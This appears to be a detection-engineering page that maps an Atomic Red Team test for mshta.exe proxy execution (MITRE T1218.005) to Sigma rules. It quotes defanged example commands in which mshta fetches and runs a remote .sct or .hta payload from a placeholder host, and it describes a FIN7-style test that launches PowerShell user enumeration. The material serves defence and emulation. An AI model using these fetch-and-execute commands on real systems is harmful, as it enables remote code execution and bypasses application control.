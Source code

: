 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Binary Proxy Execution: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta executes VBScript to execute malicious command
## OS
  - windows


## Description:
Run a local VB script to run local user enumeration powershell command.
This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.
Upon execution, a new PowerShell windows will be opened that displays user information.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - proc_creation_win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - proc_creation_win_powershell_susp_parent_process.yml (id: 754ed792-634f-40ae-b3bc-e0448d33f695)

 - proc_creation_win_mshta_susp_child_processes.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - proc_creation_win_non_interactive_powershell.yml (id: f4bbd493-b796-416e-bbf2-121235348529)

 - posh_ps_localuser.yml (id: 4fdc44df-bfe9-4fcc-b041-68f5a2d3031c)

 - posh_ps_susp_local_group_reco.yml (id: fa6a5a45-3ee2-4529-aa14-ee5edc9e29cb)

 - posh_pm_susp_local_group_reco.yml (id: cef24b90-dddc-4ae1-a09a-8764872f69fc)



[back](../index.md)
